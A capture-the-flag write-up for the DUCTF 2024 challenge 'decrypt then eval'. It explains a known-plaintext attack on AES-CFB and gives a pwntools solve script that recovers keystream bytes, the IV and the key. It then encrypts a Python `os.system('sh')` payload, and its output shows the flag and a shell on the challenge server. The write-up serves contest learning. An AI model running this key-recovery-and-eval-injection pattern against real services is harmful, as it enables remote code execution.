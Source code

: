 ```yaml
---
ai_date: '2025-04-27 05:15:15'
ai_summary: Found plaintext-ciphertext relationship in CFB mode, used known-plaintext
  attack to obtain initial encryption value and extracted flag with IV and key.
ai_tags:
- aes
- cfb
- known-plaintext
- xor
created: 2024-07-05T18:09
description: '1111'
points: 118
solves: 197
tags:
- aes
title: decrypt then eval
updated: 2024-08-05T19:44
---
```


## Analysis
Looking through the docs on CFB and playing around with it made me realize that the encryption works by $C=E\oplus P$.

```python
print(xor(b'ABC', AES.new(KEY, AES.MODE_CFB, IV, segment_size=128).encrypt(b'ABC')))
print(xor(b'ABCD', AES.new(KEY, AES.MODE_CFB, IV, segment_size=128).encrypt(b'ABCD')))
b'Gq\x18'
b'Gq\x18\x16'
```

Hence with a known plaintext and ciphertext pair, we can obtain the unknown $E$ without knowing IV or Key.

My method is to send random bytes until the server reply with `1`, in that case I would know the ciphertext for `1`. I will add another random byte to the ciphertext until server reply with `11`. You get the point.

I will find the first 4 characters of $E$ by using the $E=C\oplus \text{0b1111}$.

```mermaid
sequenceDiagram
    Me-->>Remote: 0x00 to 0xff
    Remote->>Me: b'1'
    Me-->>Remote: 0x39 + 0x00 to 0xff
    Remote->>Me: b'11'
    Note over Me,Remote: Repeat 4 times
    Note over Me,Remote: Find E by b'1111' ^ b'....'
```

### Solve Script

```python
from pwn import *
from Crypto.Cipher import AES
context.log_level = 'error'
rm = remote('2024.ductf.dev', 30020)
rm.recv()


def send(payload):
    rm.sendline(payload.hex().encode())
    r = rm.recv().strip()[:-4].strip()
    if r == b'invalid ct!':
        return None
    return r


def main():
    e = b''
    p = b''
    expected = 1
    for i in range(4):
        for _ in range(256):
            _p = p + _.to_bytes(1, 'big')
            if send(_p) == str(expected).encode():
                e = xor(_p, str(expected).encode())
                print(f"#{i} found E = {e}")
                p = _p
                expected = expected*10+1
                break
            print('.', end='', flush=True)
    r = send(xor(e, b'FLAG'))
    print(r)
    IV = eval(send(xor(e[:2], b'IV')))
    KEY = eval(send(xor(e[:3], b'KEY')))
    d = AES.new(KEY, AES.MODE_CFB, IV, segment_size=128).encrypt(b"__import__('os').system('sh')")
    rm.sendline(d.hex().encode())
    rm.interactive()


if __name__ == '__main__':
    main()
```

```
......................................................................................................#0 found E = b'W'
..............................................................................................................................................#1 found E = b'W\xbf'
............................................................................................................................................................................................................................#2 found E = b'W\xbf\xed'
........................................................................................................................................................................#3 found E = b'W\xbf\xed\x99'
b'DUCTF{should_have_used_authenticated_encryption!}'
ls
bin
chal
kctf
lib
lib64
usr
cd ~
sh: 2: cd: can't cd to ~
```

Yes, I even added a reverse shell.